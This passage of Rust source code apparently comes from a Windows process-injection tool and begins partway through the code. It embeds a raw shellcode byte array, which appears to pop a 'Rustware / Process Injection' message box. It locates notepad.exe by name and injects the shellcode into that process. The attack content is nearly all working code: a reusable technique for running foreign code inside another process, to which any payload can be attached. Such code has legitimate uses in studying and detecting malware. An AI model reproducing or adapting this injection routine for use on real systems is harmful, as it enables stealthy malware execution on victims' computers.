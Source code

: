 ```rust
        );

        if handle_tread.is_invalid() {
            return Err(Error::new(
                HRESULT(-1),
                HSTRING::from("VirtualProtectEx Error"),
            ));
        }

        /* CloseHandle */
        if close_handle(handle_process).as_bool() == false {
            return Err(Error::new(HRESULT(-1), HSTRING::from("CloseHandle Error")));
        }
        if close_handle(handle_tread).as_bool() == false {
            return Err(Error::new(HRESULT(-1), HSTRING::from("CloseHandle Error")));
        }
    }
    Ok(())
}
fn main() {
    let payload: [u8; 272] = [
        0xd9, 0xeb, 0x9b, 0xd9, 0x74, 0x24, 0xf4, 0x31, 0xd2, 0xb2, 0x77, 0x31, 0xc9, 0x64, 0x8b,
        0x71, 0x30, 0x8b, 0x76, 0x0c, 0x8b, 0x76, 0x1c, 0x8b, 0x46, 0x08, 0x8b, 0x7e, 0x20, 0x8b,
        0x36, 0x38, 0x4f, 0x18, 0x75, 0xf3, 0x59, 0x01, 0xd1, 0xff, 0xe1, 0x60, 0x8b, 0x6c, 0x24,
        0x24, 0x8b, 0x45, 0x3c, 0x8b, 0x54, 0x28, 0x78, 0x01, 0xea, 0x8b, 0x4a, 0x18, 0x8b, 0x5a,
        0x20, 0x01, 0xeb, 0xe3, 0x34, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xee, 0x31, 0xff, 0x31, 0xc0,
        0xfc, 0xac, 0x84, 0xc0, 0x74, 0x07, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xeb, 0xf4, 0x3b, 0x7c,
        0x24, 0x28, 0x75, 0xe1, 0x8b, 0x5a, 0x24, 0x01, 0xeb, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x5a,
        0x1c, 0x01, 0xeb, 0x8b, 0x04, 0x8b, 0x01, 0xe8, 0x89, 0x44, 0x24, 0x1c, 0x61, 0xc3, 0xb2,
        0x08, 0x29, 0xd4, 0x89, 0xe5, 0x89, 0xc2, 0x68, 0x8e, 0x4e, 0x0e, 0xec, 0x52, 0xe8, 0x9f,
        0xff, 0xff, 0xff, 0x89, 0x45, 0x04, 0xbb, 0x7e, 0xd8, 0xe2, 0x73, 0x87, 0x1c, 0x24, 0x52,
        0xe8, 0x8e, 0xff, 0xff, 0xff, 0x89, 0x45, 0x08, 0x68, 0x6c, 0x6c, 0x20, 0x41, 0x68, 0x33,
        0x32, 0x2e, 0x64, 0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xdb, 0x88, 0x5c, 0x24, 0x0a, 0x89,
        0xe6, 0x56, 0xff, 0x55, 0x04, 0x89, 0xc2, 0x50, 0xbb, 0xa8, 0xa2, 0x4d, 0xbc, 0x87, 0x1c,
        0x24, 0x52, 0xe8, 0x5f, 0xff, 0xff, 0xff, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x77, 0x61,
        0x72, 0x65, 0x68, 0x52, 0x75, 0x73, 0x74, 0x31, 0xdb, 0x88, 0x5c, 0x24, 0x08, 0x89, 0xe3,
        0x68, 0x6e, 0x58, 0x20, 0x20, 0x68, 0x63, 0x74, 0x69, 0x6f, 0x68, 0x49, 0x6e, 0x6a, 0x65,
        0x68, 0x65, 0x73, 0x73, 0x20, 0x68, 0x50, 0x72, 0x6f, 0x63, 0x31, 0xc9, 0x88, 0x4c, 0x24,
        0x11, 0x89, 0xe1, 0x31, 0xd2, 0x52, 0x53, 0x51, 0x52, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xff,
        0x55, 0x08,
    ];

    let payload_ptr: *const c_void = payload.as_ptr() as *const c_void;
    let payload_len = payload.len();

    match find_pid("notepad.exe") {
        Ok(pid) => match pid {
            1..=u32::MAX => match inject(pid, payload_ptr, payload_len) {
                Ok(()) => println!("Process Injection Completed"),
                Err(e) => println!("{e}"),
            },
            0 => println!("Process not found"),
        },
        Err(e) => println!("Error: {e}"),
    }
}
```
